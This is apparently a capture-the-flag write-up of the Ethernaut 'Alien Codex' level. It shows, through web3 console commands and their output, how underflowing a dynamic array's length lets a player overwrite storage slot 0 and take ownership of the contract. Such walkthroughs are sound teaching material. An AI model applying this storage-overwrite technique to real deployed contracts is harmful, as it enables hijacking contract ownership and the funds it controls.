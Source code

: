 # Alien codex

Mission: take over owner of this contract but we no way to modify it directly because it now show how to assign value to `owner` that they inheit from Ownable.

check value of slot 0:
```javascript
await web3.eth.getStorageAt(contract.address,0)
> '0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
```

Try check owner:

```javascript
await contract.owner();
> '0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272'
```

To make change at revise function, we need to enable modifier contacted:
```javascript
await contract.make_contact();
```

Verify value in slot0 again and see that first byte change from 0x..0 to be 0x..1:
```javascript
await web3.eth.getStorageAt(contract.address,0)
> '0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
```
It means slot 0 have both bool 1 byte and **owner** address.
![slot0](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/slot0.JPG)

Check value of slot1:
```javascript
await web3.eth.getStorageAt(contract.address,1)
> '0x0000000000000000000000000000000000000000000000000000000000000000'
```

codex.length=0 is very small, we try underflow attack by call function retract() to open all dynamic array:
```javascript
await contract.retract();
```

Verify value at slot1 again:
```javascript
await web3.eth.getStorageAt(contract.address,1)
> '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```

from function revise(), we saw that it use codex[i],we may need to overflow slot from slot1 to slot0 
and find index of the owner that were in slot0, We want to replace value of `bytes32 _content` at the index of owner as player address.
Refer to maximum one slot hold 32 bytes mean 256 bit (1byte=8 bit)
_owner variable is located at slot 0 (address have 20 bytes), we need to change from 20bytes to 32bytes for `_content`.
See solution in [addr32bytes.js](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/addr32bytes.js)

Find index of owner, see solution in [callIndex.sol](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/calIndex.sol)

![index](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/index.JPG)

Replace owner address as player address:
```javascript
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938','0x000000000000000000000000176366cFD97885245fAEA72f8cB6951e52655Adf');
```

Verify that you are owner now:
```javascript
await contract.owner();
> '0x176366cFD97885245fAEA72f8cB6951e52655Adf'
```

![slot1](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/slot1.JPG)

Level completed!
Difficulty 7/10

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of 2^256. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)